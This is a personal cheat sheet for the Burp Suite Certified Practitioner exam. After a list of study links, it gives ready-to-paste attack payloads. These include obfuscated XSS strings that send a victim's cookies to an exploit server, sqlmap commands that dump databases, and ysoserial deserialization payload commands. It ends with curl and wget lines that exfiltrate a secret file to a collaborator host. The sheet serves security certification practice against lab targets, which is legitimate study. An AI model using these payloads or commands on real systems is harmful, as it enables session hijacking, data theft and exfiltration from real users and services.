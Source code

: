 # Resources
- [botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/README.md)
- [DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner?tab=readme-ov-file)
- [micahvandeusen - burp-suite-certified-practitioner-exam-review](https://micahvandeusen.com/burp-suite-certified-practitioner-exam-review/)
- [ChrisM-X/PortSwigger-Academy-CheatSheets](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/tree/master/_Prepare%20For%20Burp%20Suite%20Exam)
- [pawlokk/burp-exam-notes/blob/main/methodology.txt](https://github.com/pawlokk/burp-exam-notes/blob/main/methodology.txt)
- [bscpcheatsheet.gitbook.io/exam](https://bscpcheatsheet.gitbook.io/exam)
# More extensions
Quick detection - Scan Manual insertion point https://portswigger.net/bappstore/ca7ee4e746b54514a0ca5059329e926f
# Payload processing
- [Obfuscating attacks using encodings](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings)
# XSS
"-(window["document"]["location"]="https://exploit-server%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
"}; window['docu'+'ment']['loc'+'ation']='https://subdomain%2eexploit-server%2enet/?'+(window['docu'+'ment']['coo'+'kie']);//
```html
<script>
location ='https://url.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0ab600a70433f087809c020301d4004f%252eexploit-server%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';
</script>
```

# SQLi
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter"
sqlmap -u "url" --cookie="cookies" --batch --dbs --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3
sqlmap -u "url" --cookie="cookies" --batch -D database -T table --random-agent -p "parameter" --proxy="http://127.0.0.1:8080/" --level=3 --dump


# Insecure Deserialization
- Command
```bash
java -jar ysoserial-all.jar [payload] "command"
```
- Base64 encode the payload piping the output to `base64 -w 0`
   - For MacOS use the `gbase64` command which accepts the -w flag

```bash
java -jar ysoserial-all.jar [payload] "command" | gzip -c | base64 -w 0
```
# Command for data exfiltration
curl --data @/home/carlos/secret subdomain.collaborator.net
wget --post-file /home/carlos/secret subdomain.collaborator.net
